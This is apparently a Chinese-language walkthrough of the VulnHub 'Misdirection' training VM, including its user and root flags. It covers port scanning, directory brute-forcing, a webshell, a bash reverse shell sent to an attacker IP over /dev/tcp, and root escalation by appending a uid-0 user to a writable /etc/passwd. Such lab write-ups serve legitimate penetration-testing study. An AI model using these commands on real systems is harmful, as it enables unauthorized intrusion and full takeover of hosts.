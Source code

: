 > 涉及 passwd文件提权，蜜罐，前期仔细信息收集，枚举 webshell，使用/bin/bash 进行反弹shell
## 靶机信息

级别:容易
下载地址：[https://download.vulnhub.com/misdirection/Misdirection.zip](https://download.vulnhub.com/misdirection/Misdirection.zip)
描述:该机器的目的是让 OSCP 学生进一步发展、加强和练习他们的考试方法。
这对于 VirtualBox 而不是 VMware 效果更好


## Recon
### nmap

```shell
sudo nmap -sn 192.168.1.0/24
//IP:192.168.1.143

sudo nmap --min-rate 10000 -sT -p- 192.168.1.143
//Ports:
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy

sudo nmap -sT -p 22,80,3306,8080 -sC -sV -O 192.168.1.143 
```

## Web
![[Pasted image 20231008162919.png]]

![[Pasted image 20231008163937.png]]

### 目录爆破
```shell
gobuster dir -u http://192.168.1.143:8080/ -w /usr/share/wordlists/dirb/common.txt 
```
![[Pasted image 20231008164120.png]]
debug目录是一个控制台

```shell
p0wny@shell:/home/brexit# sudo -l

//
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash

// 权限看到brexit用户可以使用/bin/bash

```
## 提权
```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.136/1234 0>&1' //执行反弹shell
sudo -u brexit /bin/bash //切换到brexit用户

python -c "import pty;pty.spawn('/bin/bash')" //生成tty shell
//得到user flag：404b9193154be7fbbc56d7534cb26339

find / -type f -perm -ug=rwx 2>/dev/null
```
![[Pasted image 20231008202335.png]]
发现对passwd文件有rwx权限

### passwd文件提权

![[Pasted image 20231008202425.png]]
x:表示密码在/etc/shadow文件中

这里直接在passwd文件中添加一个用户并给予它root权限,对/etc/passwd这类系统文件操作时候，可以将文件备份,防止输入错误导致无法登录等问题(cp /etc/passwd /tmp/passwd.bak)

```shell
openssl passwd -1(数字1) -salt [username] [password] > hash.txt

openssl passwd -1 -salt hacker 12345 > hash.txt
// $1$hacker$sBhvxhSYsmVUe1EX5faud.(不要遗漏末尾的点号)

// hacker:$1$hacker$sBhvxhSYsmVUe1EX5faud.:0:0:root/root:/bin/bash
//安全起见 先echo到/tmp/123下，查看是否有错误
echo 'hacker:$1$hacker$sBhvxhSYsmVUe1EX5faud.:0:0:root/root:/bin/bash' >> /tmp/123

su hacker //密码为12345，此时hacker用户拥有了root权限
// root flag:0d2c6222bfdd3701e0fa12a9a9dc9c8c
```